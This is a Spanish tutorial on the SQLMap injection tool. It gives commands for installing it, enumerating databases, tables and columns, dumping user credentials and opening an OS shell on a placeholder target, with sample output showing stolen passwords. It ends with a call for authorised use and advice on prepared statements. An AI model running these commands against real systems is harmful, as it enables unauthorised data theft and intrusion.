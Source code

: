# SQLMap - Guía de Uso

## Qué es SQLMap

>SQLMap es una herramienta de código abierto que automatiza el proceso de detección y explotación de inyecciones SQL. Permite probar y explotar vulnerabilidades en bases de datos, extrayendo información y, en algunos casos, obteniendo acceso al sistema subyacente.

## Instalación en Debian (Parrot OS)
En Parrot, SQLMap ya viene preinstalado, pero en caso de necesitar reinstalarlo:

```bash
sudo apt update && sudo apt install sqlmap -y
```

Para verificar la instalación:
```bash
sqlmap --version
```

## Comandos útiles con ejemplos

### 1. Detección de inyección SQL en una URL
```bash
sqlmap -u "https://target.com/product?id=1" --batch --dbs
```
- `-u` Especifica la URL objetivo.
- `--batch` Acepta opciones predeterminadas sin preguntar.
- `--dbs` Enumera las bases de datos disponibles.

### 2. Enumerar tablas dentro de una base de datos específica
```bash
sqlmap -u "https://target.com/product?id=1" -D nombre_db --tables
```
- `-D` Especifica la base de datos objetivo.
- `--tables` Lista las tablas dentro de la base de datos seleccionada.

### 3. Obtener columnas de una tabla específica
```bash
sqlmap -u "https://target.com/product?id=1" -D nombre_db -T usuarios --columns
```
- `-T` Especifica la tabla a analizar.
- `--columns` Muestra las columnas de la tabla seleccionada.

### 4. Extraer datos de una tabla específica
```bash
sqlmap -u "https://target.com/product?id=1" -D nombre_db -T usuarios -C usuario,contraseña --dump
```
- `-C` Especifica las columnas a extraer.
- `--dump` Descarga los datos de las columnas indicadas.

### 5. Detectar el tipo de base de datos y sistema operativo
```bash
sqlmap -u "https://target.com/product?id=1" --fingerprint
```
- `--fingerprint` Intenta identificar el tipo de base de datos y detalles del sistema operativo.

### 6. Intentar obtener una shell en la base de datos
```bash
sqlmap -u "https://target.com/product?id=1" --os-shell
```
- `--os-shell` Lanza un shell interactivo en caso de que sea posible ejecutar comandos en el sistema.

## Explicación de salidas esperadas

### Base de datos vulnerable detectada
```
[INFO] the back-end DBMS is MySQL
[INFO] fetching database names
available databases [2]:
[*] information_schema
[*] tienda_db
```
- Se confirma que la base de datos objetivo es MySQL.
- Se listan las bases de datos disponibles.

### Tablas encontradas dentro de una base de datos
```
Database: tienda_db
[3 tables]
+------------+
| clientes   |
| pedidos    |
| productos  |
+------------+
```
- SQLMap muestra las tablas dentro de la base de datos `tienda_db`.

### Columnas dentro de una tabla específica
```
Table: clientes
[4 columns]
+------------+----------+
| id         | int      |
| nombre     | varchar  |
| email      | varchar  |
| password   | varchar  |
+------------+----------+
```
- Se identifican las columnas dentro de la tabla `clientes`.

### Datos extraídos de la tabla `usuarios`
```
+----+------------+----------------+
| id | usuario    | contraseña     |
+----+------------+----------------+
| 1  | admin     | 123456          |
| 2  | user1     | password123     |
+----+------------+----------------+
```
- SQLMap ha extraído credenciales de usuarios.

## Conclusión
SQLMap es una herramienta potente para detectar y explotar inyecciones SQL de manera automatizada. Sin embargo, su uso debe ser responsable y siempre con autorización. Para protegerse contra estos ataques, es fundamental emplear consultas preparadas y validar correctamente las entradas del usuario.
